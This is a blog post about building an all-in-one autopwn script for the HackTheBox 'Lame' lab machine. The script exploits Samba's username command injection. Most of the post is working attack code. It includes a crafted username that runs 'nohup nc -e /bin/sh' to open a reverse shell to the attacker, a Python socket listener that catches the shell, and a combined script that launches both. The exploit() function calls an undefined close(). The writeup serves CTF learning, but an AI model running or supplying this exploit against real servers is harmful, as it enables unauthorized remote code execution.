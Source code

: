 ```yaml
---
layout: post
title: "HackTheBox Lame Autopwn"
permalink: /blog/lame-autopwn
categories: hackthebox
---
```


# Building The Autopwn

For my [lame](https://agent-tiro.github.io/htb/lame) writeup I ended up making an autopwn script. Mainly as an exercise for me to keep improving my scripting knowledge. I thought it would be good to explain how it was put together and built in stages for those looking to start scripting a bit more. 

## The Exploit

The aim is to connect to the Samba share and logon with the crafted username to run a command that will connect back to a listener we set up. This part is fairly straight forward. All we need is a python library to handle the smb protocol. I used [pysmb](https://pypi.org/project/pysmb/), which has some good online [documentation](https://pysmb.readthedocs.io/en/latest/). 

First up we will set the malicious username variable, and a password to exploit the vulnerability. 

```
username = '/=`nohup nc -e /bin/sh <ip addr> <port> `'
password = 'hunter2' # this is not important
```

Now we want to import the relevant parts from the smb library and setup a connection to the Samba share. 

```
from smb.SMBConnection import SMBConnection
from smb import smb_structs

username = '/=`nohup nc -e /bin/sh <ip addr> <port> `'
password = 'hunter2' # this is not important

smb_structs.SUPPORT_SMB2 = False
conn = SMBConnection(username, password, 'doesnotmatter', 'lame', use_ntlm_v2 = True)
conn.connect('10.10.10.3', 445)
```

In this part we set support SMB2 to false to enable connection to the older version of Samba that we are targetting. The details for the connection are completed, using the documents as a reference for what should be passed. Then connect is used to initiate the connection to the target IP and port. 

If you really wanted this could be the end of your exploit script. You could setup a netcat listener and run this exploit and enjoy your shell. Or if you wanted to challenge yourself you could try and setup your own listener in python to catch the incoming connection

## The Listener

For this I used the socket library which is well documented and has a lot of use cases that can be used to help solve problems you encounter. 

```
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((<ip addr>, <port>))
s.listen(5)
```

So now the listener is setup we need a way to accept the incoming connection when the exploit is ran. It also needs to be able to send commands to the target and receive the response. 

```
client_socket, client_addr = s.accept() # accepts the incoming connection
while True:
    command = input("") # take user input for commands
    if command.lower() == 'exit': # so we can use exit to close the shell
        break
    command = command.encode() # encode the command to be sent
    client_socket.send(command + b'\n') # send the command
    response = client_socket.recv(2048).decode() # receive the response and decode
    print(response) # print the response
client_socket.close()
s.close()
```

## The Listener Problem

The problem we have here is that if this was all combined into a script is that it wouldn't be possible to launch the listener then switch to running the exploit. The easiest way around this that I found was to use multiprocessing. This needed a bit of a rework of the above parts and to put some of them into functions. With the multiprocessing bit looking like this:

```
if __name__ == '__main__':
    p = multiprocessing.Process(name='p', target=listener)
    p1 = multiprocessing.Process(name='p1', target=exploit)
    p.start()
    time.sleep(1)
    p1.start()
    cmd()
```

This basically sets a process to the listener and another to the exploit and starts them sequentially before dropping into the command functon which accepts the inbound connection and gives command shell functionality. 

## The Final Exploit

Putting all of this together, with a little extra to take user input to set the listening host and port and you have an all in one script that will setup the listener, run the exploit and give you command line access to the target. 

```
import argparse
from smb.SMBConnection import SMBConnection
from smb import smb_structs
import socket
import multiprocessing
import time

# Create a mini help file to show which flags are required
parser = argparse.ArgumentParser(description='Lame Exploit')
parser.add_argument('-l', required=True, type=str, help='Listener IP')
parser.add_argument('-p', required=True, type=int, help='Listener Port')
args = parser.parse_args()

# Set user args to variables for use later
host = args.l
port = args.p

# Create malicious username
username = '/=`nohup nc -e /bin/sh ' + host + ' ' + str(port) + '`'
password = 'hunter2'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Set up a listener
def listener():
    s.bind((host, port))
    s.listen(5)
    print('Listening on port: ' + str(port))

# Catch that shell
def cmd():
    client_socket, client_addr = s.accept()
    print(f'{client_addr[0]}:{client_addr[1]} Connected!')
    print('Whoop! Shell Time!\n')
    while True:
        command = input("")
        if command.lower() == 'exit':
            break
        command = command.encode()
        client_socket.send(command + b'\n')
        response = client_socket.recv(2048).decode()
        print(response)
    client_socket.close()
    print('Exiting')
    s.close()

# Create SMB Connection
def exploit():
    smb_structs.SUPPORT_SMB2 = False
    conn = SMBConnection(username, password, 'doesnotmatter', 'lame', use_ntlm_v2 = True)
    print('Launching exploit')
    conn.connect('10.10.10.3', 445)
    time.sleep(1)
    close()

# Launch this thing in multiprocessing
if __name__ == '__main__':
    p = multiprocessing.Process(name='p', target=listener)
    p1 = multiprocessing.Process(name='p1', target=exploit)
    p.start()
    time.sleep(1)
    p1.start()
    cmd()
```
